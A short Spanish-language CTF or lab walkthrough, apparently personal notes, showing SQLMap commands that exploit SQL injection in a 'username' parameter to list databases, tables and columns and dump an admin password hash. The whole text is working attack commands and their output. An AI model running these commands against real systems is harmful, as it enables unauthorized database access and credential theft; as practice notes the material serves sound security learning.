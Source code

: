 ![[Pasted image 20240909235320.png]]

>Comandos de `SQLMap`

- Comando para `dumpear` el nombre de las Bases de Datos del sistema

```bash
❯ sqlmap -r request.txt -p username --batch --dbs --force-ssl
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.3#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

- Miramos las tablas dentro de la Base de Datos `public`
```bash
❯ sqlmap -r request.txt -p username --batch --dbs --force-ssl -D public --tables

Database: public
[1 table]
+-------+
| users |
+-------+
```

- Miramos las columnas que tiene la tabla `users`
```bash
❯ sqlmap -r request.txt -p username --batch --dbs --force-ssl -D public T users --columns

Database: public
Table: users
[2 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| password | varchar |
| username | varchar |
+----------+---------+
```

- Dumpeamos los valores de dichas columnas
```bash
❯ sqlmap -r request.txt -p username --batch --dbs --force-ssl -D public -T users -C password,username --dump

Database: public
Table: users
[1 entry]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+
```
